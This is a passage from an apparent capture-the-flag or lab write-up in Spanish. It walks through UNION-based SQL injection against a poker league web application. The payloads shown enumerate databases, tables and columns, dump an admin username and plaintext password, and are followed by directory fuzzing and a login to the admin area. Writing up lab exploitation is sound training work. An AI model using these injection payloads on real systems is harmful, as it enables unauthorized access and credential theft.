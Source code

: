 Por lo que concatenamos un *union select* de la siguiente manera para extraer los nombres de las bases de datos:
```
tournamentid=1711181752' union select group_concat(schema_name),2 from information_schema.schemata-- -
```
![[Pasted image 20240819163354.png]]

Por lo que existen 3 bases de datos relevantes: phpmyadmin, pokerleague y vip. Sí listamos las tablas de poker league tenemos:
```
1711181752' union select group_concat(table_name),2 from information_schema.tables where table_schema="pokerleague"-- -
```
![[Pasted image 20240819164753.png]]

Vamos a listar las columnas de la tabla "pokermax_admin":
```
1711181752' union select group_concat(column_name),2 from information_schema.columns where table_schema="pokerleague" and table_name="pokermax_admin"-- -
```
![[Pasted image 20240819165325.png]]

Podemos ver *username* y *password*, vamos a acceder a estas columnas:
```
1711181752' union select group_concat(username, 0x3a, password),2 from pokerleague.pokermax_admin-- -
```
![[Pasted image 20240819165900.png]]

Tenemos un usuario (admin) y contraseña en claro (raise12millon).

## Admin web enumeration
Si miramos el código fuente de `install/` podemos ver que existe otro directorio llamado "pokeradmin":
![[Pasted image 20240819160726.png]]

Si hacemos fuzzing de subdirectorios de `pokeradmin/` obtenemos un directorio `pokeradmin/backup/`
![[Pasted image 20240819164859.png]]

Si hacemos *fuzzing* de archivos PHP en el directorio de `pokeradmin/` podemos encontrar:
![[Pasted image 20240819170527.png]]

Si accedemos a `pokeradmin/index.php` vemos lo siguiente:
![[Pasted image 20240819170617.png]]

Así que si nos logueamos con las credenciales extraídas de la base de datos obtenemos acceso al *Admin Area*:
![[Pasted image 20240819170724.png]]

En el *Admin Area* podemos ver una sección de backups donde se puede ver código corrupto:
![[Pasted image 20240819182058.png]]
